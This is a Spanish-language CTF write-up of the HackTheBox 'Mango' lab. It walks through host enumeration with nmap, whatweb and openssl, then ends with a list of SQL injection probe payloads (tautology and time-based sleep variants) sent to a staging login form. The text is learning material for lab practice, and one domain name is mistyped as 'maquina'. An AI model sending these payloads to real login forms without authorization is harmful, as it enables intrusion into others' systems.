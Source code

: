 
El scaneo de nmap nos muestra 2 dominios 

- mango.htb
- staging-order.mango.htb

los añadimos al 
```bash
 /etc/hosts 
```


### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.162
whatweb https://10.10.10.162
```

Es un Apache 2.4.29 en un Ubuntu. El puerto 80 nos muestra un 403 Forbiden pero no el 443.

#### Checkeamos el certificado ssl {-}

```bash
openssl s_client -connect 10.10.10.162:443
```

Nuevamente vemos el dominio 
```bash
 staging-order.mango.htb 
```


#### Checkear la web {-}

Si entramos en la url 
```bash
 http://10.10.10.162 
```
, Vemos que no tenemos acceso. Si vamos con **https**, vemos una web stylo Google.
Ocure lo mismos con el dominio 
```bash
 mango.htb 
```
 pero con el dominio 
```bash
 staging-order.maquina.htb 
```
 por **http**, vemos un panel de inicio de 
session.

Aqui probamos cosas uzando el burpsuite.

```bash
username=admin&password=admin&login=login
username=admin'&password=admin&login=login
username=admin'&password=admin'&login=login
username=admin' or 1=1-- -&password=admin&login=login
username=admin' and sleep(5)-- -&password=admin&login=login
username=admin' and sleep(5)#&password=admin&login=login
username=admin' or sleep(5)#&password=admin&login=login
username=admin or sleep(5)#&password=admin&login=login
username=admin and sleep(5)#&password=admin&login=login
```
